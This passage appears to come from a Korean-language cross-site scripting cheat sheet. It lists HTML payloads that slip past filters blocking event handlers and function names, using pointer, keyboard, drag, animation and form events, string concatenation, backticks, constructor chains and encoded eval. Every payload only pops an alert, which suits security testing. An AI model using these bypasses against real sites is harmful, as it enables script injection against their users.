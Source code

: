 #### 3.1.2. 이벤트 핸들러 차단 우회

**포인터 이벤트:**
```html
<div onpointerover=alert('XSS')>Hover</div>
<div onpointerdown=alert('XSS')>Click</div>
<div onpointerenter=alert('XSS')>Move</div>
```

**키보드 이벤트:**
```html
<input onkeydown=alert('XSS') autofocus>
<input onkeyup=alert('XSS') autofocus>
<input onkeypress=alert('XSS') autofocus>
```

**드래그 이벤트:**
```html
<div draggable=true ondrag=alert('XSS')>Drag me</div>
<div draggable=true ondragstart=alert('XSS')>Drag start</div>
```

**애니메이션 이벤트:**
```html
<svg><animate onbegin=alert('XSS') attributeName=x dur=1s>
<svg><animateTransform onbegin=alert('XSS') attributeName=transform>
```

**폼 이벤트:**
```html
<form><input name=x onfocus=alert('XSS') autofocus>
<select onfocus=alert('XSS') autofocus><option>
<textarea onfocus=alert('XSS') autofocus>
```

#### 3.1.3. 함수명 차단 우회

**문자열 연결:**
```html
<img src=x onerror="window['al'+'ert']('XSS')">
<img src=x onerror="window['ale'+'rt']('XSS')">
<img src=x onerror="(window)['alert']('XSS')">
```

**백틱 사용:**
```html
<img src=x onerror=alert`XSS`>
<img src=x onerror=confirm`XSS`>
<img src=x onerror=prompt`XSS`>
```

**Constructor 활용:**
```html
<img src=x onerror="[].constructor.constructor('alert(\"XSS\")')()">
<img src=x onerror="('')['constructor']['constructor']('alert(\"XSS\")')()">
```

**eval + 인코딩:**
```html
<img src=x onerror=eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))>
<img src=x onerror=eval(atob('YWxlcnQoJ1hTUycp'))>
```
